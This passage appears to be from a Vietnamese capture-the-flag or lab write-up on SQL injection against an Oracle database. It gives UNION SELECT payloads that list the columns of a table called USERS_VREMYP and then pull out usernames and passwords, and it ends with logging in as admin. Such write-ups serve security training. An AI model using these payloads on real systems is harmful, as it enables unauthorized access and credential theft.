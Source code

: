 ![](Images/image34.png)

Table khả nghi nhất là: USERS_VREMYP

Lấy tất cả cột trong table USERS_VREMYP bằng query:

' UNION SELECT NULL,column_name FROM all_tab_columns WHERE table_name= USERS_VREMYP—

![](Images/image35.png)

Lấy thông tin username, password bằng query:

' UNION SELECT USERNAME_FBONZN,PASSWORD_FHHDNB FROM USERS_VREMYP--

![](Images/image36.png)

Đăng nhập tk admin:

![](Images/image37.png)
